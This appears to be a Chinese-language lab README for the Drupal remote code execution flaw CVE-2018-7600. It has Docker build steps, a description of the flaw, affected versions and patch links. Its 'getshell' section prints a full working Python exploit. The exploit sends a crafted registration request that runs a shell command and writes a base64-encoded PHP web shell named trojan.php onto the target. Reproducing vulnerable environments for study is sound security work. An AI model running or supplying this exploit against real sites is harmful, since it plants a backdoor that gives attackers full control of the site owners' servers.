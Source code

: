 ## 环境编译
```
docker-compose build
docker-compose up -d
```
##漏洞介绍
2018年3月28日，Drupal Security Team官方发布了一个重要的安全公告，宣称Drupal 6,7,8等多个子版本存在远程代码执行漏洞，攻击者可以利用该漏洞攻击Drupal系统的网站，执行恶意代码，最后完全控制被攻击的网站，该漏洞就是：CVE-2018-7600。
影响版本
Drupal 6.x，7.x，8.x

修复版本
Drupal 7.58，Drupal 8.5.1

修复方案
7.x版本，更新到 7.58 https://www.drupal.org/project/drupal/releases/7.58

8.5.x版本，更新到 8.5.1 https://www.drupal.org/project/drupal/releases/8.5.1

8.4.x 版本，更新到 8.4.6 https://www.drupal.org/project/drupal/releases/8.4.6

8.3.x 版本，更新到 8.3.9 https://www.drupal.org/project/drupal/releases/8.3.9

##getshell
```
#!/usr/bin/env python3
import sys
import requests

print ('################################################################')
print ('# Proof-Of-Concept for CVE-2018-7600')
print ('# by Vitalii Rudnykh')
print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
print ('# https://github.com/a2u/CVE-2018-7600')
print ('################################################################')
print ('Provided only for educational or information purposes\n')

target = input('Enter target url (example: https://domain.ltd/): ')

# Add proxy support (eg. BURP to analyze HTTP(s) traffic)
# set verify = False if your proxy certificate is self signed
# remember to set proxies both for http and https
# 
# example:
# proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
# verify = False
proxies = {}
verify = True

url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo "PD9waHAgZXZhbCgkX1BPU1RbJ3NoYWRvdyddKTsgPz4=" |base64 -d |tee trojan.php'}

r = requests.post(url, proxies=proxies, data=payload, verify=verify)
check = requests.get(target + 'trojan.php', verify=verify)
if check.status_code != 200:
  sys.exit("Not exploitable")
print ('\nCheck: '+target+'trojan.php')

```

[链接一](https://paper.seebug.org/567/)
[链接二](https://github.com/g0rx/CVE-2018-7600-Drupal-RCE)

